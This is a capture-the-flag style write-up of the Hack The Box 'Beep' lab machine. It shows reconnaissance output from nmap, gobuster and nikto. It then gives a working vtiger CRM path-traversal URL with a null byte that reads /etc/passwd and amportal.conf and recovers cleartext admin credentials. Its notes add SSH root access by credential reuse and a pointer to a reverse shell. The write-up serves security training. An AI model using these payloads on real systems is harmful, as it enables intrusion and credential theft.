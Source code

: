 ### IP
`10.10.10.7`


# Recon

### nmap
`nmap -sC -sV -oN 10.10.10.7Beep.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-26 02:05 EST
Nmap scan report for 10.10.10.7
Host is up (0.048s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES LOGIN-DELAY(0) UIDL TOP AUTH-RESP-CODE APOP USER EXPIRE(NEVER) STLS IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ID THREAD=ORDEREDSUBJECT SORT=MODSEQ BINARY NO UNSELECT CHILDREN ACL UIDPLUS MAILBOX-REFERRALS LIST-SUBSCRIBED CONDSTORE LISTEXT IDLE CATENATE LITERAL+ MULTIAPPEND QUOTA NAMESPACE THREAD=REFERENCES STARTTLS RIGHTS=kxte URLAUTHA0001 RENAME SORT ANNOTATEMORE X-NETSCAPE IMAP4 ATOMIC IMAP4rev1
443/tcp   open  ssl/https?
|_ssl-date: 2020-11-26T08:12:06+00:00; +1h03m27s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 1h03m26s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 358.91 seconds
```
* port 22 ssh
* port 25 smtpd (mail)
* port 80 (http website)
	* We can see that it's running Apache 2.2.3 on CentOS
* port 110 pop3 (mail)
* port 111 rpc
* port 143 imap (mail)
* port 443 (https website)
	* This takes us to an "elastix" login portal
* port 993 imap (mail)
* port 995 pop3 (mail)
* port 3306 mysql
* port 4445 ([trojan?](https://www.adminsub.net/tcp-udp-port-finder/upnotifyp))
* port 10000 MiniServ server manager

* Okay so there's a whole lot of stuff here. 
	* Mainly looks like a server and a mail manager

### gobuster
`gobuster dir -u https://10.10.10.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x php,txt,sh,sql,xml -t 100 --timeout 20s -o gobusterScan.txt`
* There's a lot of stuff going on, so I decided to be pretty thorough with this scan
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,sh,sql,xml
[+] Timeout:        20s
===============================================================
2020/11/26 15:54:51 Starting gobuster
===============================================================
/register.php (Status: 200)
/help (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/modules (Status: 301)
/themes (Status: 301)
/mail (Status: 301)
/static (Status: 301)
/admin (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
/vtigercrm (Status: 301)
===============================================================
2020/11/26 19:11:02 Finished
===============================================================

```
* `/modules` has loads of directories that look like they could be useful, but clicking on them doesn't return anything
	* It looks like the directories match the tabs on the `/admin` page, so we probably need to be authenticated to view them
* `/mail` gives us a `RoundCube Webmail` login portal
* `/static` looks like the help pages for some IM and fax machine software
* `/admin` asks for the username and password for `FreePBX` admin
	* The page also shows that it's running `FREEPBX 2.8.1.4`
* `/libs/magpierss/CHANGES` shows us that the server is running magpieRSS v0.72
* `/recordings` looks like the login page for a FreePBX voicemail system
* `/vtigercrm` is a vtgier CRM v5.1.0 login page
	* This is vulnerable to local file inclusion
	* POC:  `https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../../../../../../../../etc/passwd%00`

### nikto
`nikto -host 10.10.10.7`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.7
+ Target Hostname:    10.10.10.7
+ Target Port:        80
+ Start Time:         2020-11-26 02:30:17 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.3 (CentOS)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: https://10.10.10.7/
+ Apache/2.2.3 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /icons/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 884871, size: 4872, mtime: Thu Jun 24 15:46:08 2010
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8672 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2020-11-26 02:48:47 (GMT-5) (1110 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```


# Exploitation

### 1. Local File Inclusion
* vtigercrm is vulnerable to local file inclusion
* [This](https://www.exploit-db.com/exploits/37637) exploit indicates that we can use this to view the credentials for elastix
	* Looking at `https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../../../../../../../../etc/amportal.conf%00&module=Accounts&action`, we see the following:
```
...
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
...
FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE
...

```
* The username is `admin` and the password is `jEhdIekWmdjE`






# Notes

* Use SIP Phone and code upload to get reverse shell: https://codemonkeyism.co.uk/htb-beep/
	* This needed a more thorough nmap scan to discover the service
* Credential reuse with ssh to get root shell: `ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1`
* Shellshock on port 1000 with webmin service cgi file
